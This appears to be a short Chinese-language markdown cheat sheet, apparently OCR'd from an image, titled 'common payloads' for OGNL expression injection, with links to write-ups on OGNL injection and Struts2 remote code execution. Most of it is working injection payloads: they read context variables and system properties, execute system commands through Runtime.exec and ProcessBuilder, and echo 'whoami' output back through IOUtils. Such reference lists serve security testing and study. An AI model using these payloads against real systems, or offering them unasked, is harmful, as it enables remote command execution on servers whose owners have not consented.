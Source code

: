 ### 常用payload

```java
//获取context里面的变量值
 #user
 #user.name

//使用runtime执行系统命令
@java.lang.Runtime@getRuntime().exec("calc")

//使用processbuilder执行系统命令
(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()

//获取当前绝对路径
@java.lang.System@getProperty("user.dir")
     
// e-mobole带回显
@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())
```

## 参考

-  [OGNL表达式注入漏洞总结](https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93) 
-  [Struts2著名RCE漏洞引发的十年之思](https://www.freebuf.com/vuls/168609.html) 
-  [Struts2 中的OGNL、表达式注入及防御](https://mp.weixin.qq.com/s/8YxQPDu6sx-w_O4BrBCEmw) 
